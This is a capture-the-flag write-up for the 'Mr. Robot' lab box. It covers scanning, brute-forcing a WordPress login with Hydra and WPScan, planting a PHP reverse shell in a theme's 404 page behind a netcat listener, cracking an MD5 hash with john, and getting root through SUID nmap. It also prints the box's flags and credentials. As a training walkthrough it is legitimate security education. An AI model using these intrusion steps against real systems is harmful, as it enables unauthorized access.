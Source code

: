 # MR. ROBOT CTF BOX

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, Burp Suite, Hydra, WPScan, netcat, john

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

dir mode
-u url
-w  wordlist

**Burp Suite**: tool to test web application security

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

http-post-form "PAGE:PARAMETER=^HYDRA_VALUE^:FAILURE STRING"
-t multi threading

**WPScan**: word press enumeration tool

```
wpscan [options]
```

-U username
-P password
--url

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.6.40.234

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap, gobuster

```
nmap -sC -sV -oN nmap.txt 10.6.40.234
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>
443 (http)

```
gobuster dir -u "http://10.6.40.234" -w /usr/share/dirb/wordlists/common.txt
```

Status code 200 means success
![gobuster](./imgs/gobuster.png)

Go to http://10.10.3.80/robots.txt<br>
robots.txt is a common file found on websites that gives a list of files that are off limits for bots (web crawlers)

FILES: key-1-of-3.txt, fsocity.dic

FLAG 1: 073403c8a58a1f80d943455fb30724b9

--------------------------------------------------------------------

### 2. FIND FLAG 2

**TOOLS**: Burp Suite, Hydra, WPScan, netcat, john

Use Burp Suite to intercept a failed login

![Burp Suite](./imgs/burp_suite.png)

INTERCEPTED POST REQUEST: log=name&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.176.17%2Fwp-admin%2F&testcookie=1

We can now feed this into hydra to brute force the login

First use fsocity.dic to find username with static password
```
hydra -L fsocity.dic -p test 10.6.40.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
"/wp-login.php" is the page<br>
"log=^USER^&pwd=^PWD^" are the parameters<br>
"Invalid username" is what a failure looks like<br>
-t 30 is the# of threads

![Hydra 1](./imgs/hydra1.png)

Invalid User<br>
![Admin](./imgs/incorrect_user.png)

User Exists<br>
![Elliot](./imgs/correct_user.png)

Use that username to brute force password using fsocity.dic again

```
wpscan -U "Elliot" -P fsocity.dic --url 10.6.40.234
```

![WPScan](./imgs/wpscan.png)

USER: Elliot
PASSWORD: ER28-0652

Login then go to editor and paste in PHP Reverse Shell code (payload.php) from pentest-monkey. I edited the 404.php page

![Editor](./imgs/editor.png)

```
nc -nlvp 4444
```

Then go http://10.10.63.226/wp-content/themes/twentyfifteen/404.php to to trigger shell

User doesn't have access to flag.

Found password hash:<br>
robot:c3fcd3d76192e4007dfb496cca67e13b

```
john hash.txt --wordlist=fsocity.dic --format=Raw-MD5 --fork=8
```

PASSWORD: abcdefghijklmnopqrstuvwxyz


Need to run this in php reverse shell to get interactive shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Get access to robot user

```
su robot
```

FLAG 2: 822c73956184f694993bede3eb39f959

--------------------------------------------------------------------

### 3. FIND FLAG 3

To find binaries for privilege escalation
```
find / -user root -perm /4000 2>/dev/null
```

Target is /usr/local/bin/nmap<br>
Found here https://gtfobins.github.io/gtfobins/nmap/

```
/usr/local/bin/nmap --interactive
!sh
```

FLAG 3: 04787ddef27c3dee1ee161b21670b4e4
